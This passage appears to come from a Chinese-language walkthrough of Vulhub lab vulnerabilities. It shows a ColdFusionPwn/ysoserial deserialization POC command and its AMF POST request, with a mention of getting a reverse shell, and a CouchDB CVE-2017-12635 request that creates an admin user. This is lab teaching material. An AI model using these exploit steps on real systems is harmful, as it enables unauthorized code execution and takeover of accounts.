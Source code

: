参考链接：

* <https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html>

我们使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser</span><br></pre></td></tr></tbody></table>

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">POST /flex2gateway/amf HTTP/1.1</span><br><span class="line">Host: your-ip:8500</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Type: application/x-amf</span><br><span class="line">Content-Length: 2853</span><br><span class="line"></span><br><span class="line">[...poc...]</span><br></pre></td></tr></tbody></table>

进入容器中，发现`/tmp/success`已成功创建：

将POC改成  
[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，  
成功拿到shell：

### [](#5-couchdb "5.couchdb")5.couchdb

#### [](#1-Couchdb-垂直权限绕过漏洞（CVE-2017-12635） "(1)Couchdb 垂直权限绕过漏洞（CVE-2017-12635）")\(1\)Couchdb 垂直权限绕过漏洞（CVE-2017-12635）

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。  
参考链接：

* <http://bobao.360.cn/learning/detail/4716.html>
* <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html>

首先，发送如下数据包：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line">PUT /_users/org.couchdb.user:vulhub HTTP/1.1</span><br><span class="line">Host: 192.168.6.130:5984</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Type: application/json</span><br><span class="line">Content-Length: 90</span><br><span class="line"></span><br><span class="line">{</span><br><span class="line">  "type": "user",</span><br><span class="line">  "name": "vulhub",</span><br><span class="line">  "roles": ["_admin"],</span><br><span class="line">  "password": "vulhub"</span><br><span class="line">}</span><br></pre></td></tr></tbody></table>
